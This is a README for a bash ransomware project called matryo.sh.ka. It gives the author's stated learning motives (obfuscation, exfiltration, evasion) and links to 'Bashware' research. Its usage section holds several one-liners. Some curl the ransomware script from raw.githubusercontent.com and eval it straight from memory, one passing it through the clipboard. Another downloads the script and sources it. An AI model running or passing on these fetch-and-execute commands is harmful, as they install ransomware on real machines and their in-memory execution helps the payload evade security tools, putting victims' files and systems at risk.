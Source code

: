 # matryo.sh.ka
matryo.sh.ka is "ransomware" implemented in bash.  
It is the sister of [kukolny](https://github.com/wilsonfisk/kukolny)

## Why?:
  * Broaden my knowledge and understanding of Computer Science.
  * Explore the various tools and techniques employed by both Linux and Windows malware, including:
    * Obfuscation techniques in various languages
	* Exfiltration of data
	* Evasion and hiding malicious activity
  * Improving proficiency with bash, Linux, and Windows
  * Explore the new "Bashware" malware threat
  * Boredom

## Utilizing matryo.sh.ka:
  * **From Memory:**
    * **Method 1:**  M=$(curl -fsSL "https://raw.githubusercontent.com/wilsonfisk/matryoshka/master/matryoshka.sh") ; eval "$M"
	* **Method 2:**  curl -fsSL "https://raw.githubusercontent.com/wilsonfisk/matryoshka/master/matryoshka.sh" | xclip -selection clipboard ; M="xclip -o -selection clipboard" && eval "$M"
	* xclip can be replaced with pbcopy and pbpaste for OS X hosts.
	* xsel --clipboard  is another option
  * **From Disk:**
    * curl -OfsSL "https://raw.githubusercontent.com/wilsonfisk/matryoshka/master/matryoshka.sh" ; . matryoshka.sh

**Bashware references:**  
[Beware of the Bashware: A New Method for Any Malware to Bypass Security Solutions](https://blog.checkpoint.com/2017/09/11/beware-bashware-new-method-malware-bypass-security-solutions)

[Check Point Software Technologies, Ltd. Demonstration of the Bashware Technique](https://www.youtube.com/watch?v=fwEQFMbHIV8)

[Bish, bosh, Bashware: Microsoft downplays research on WSL Win 10 'hack' threat](https://www.theregister.co.uk/2017/09/12/microsoft_downplays_bashware_malware_threat/)
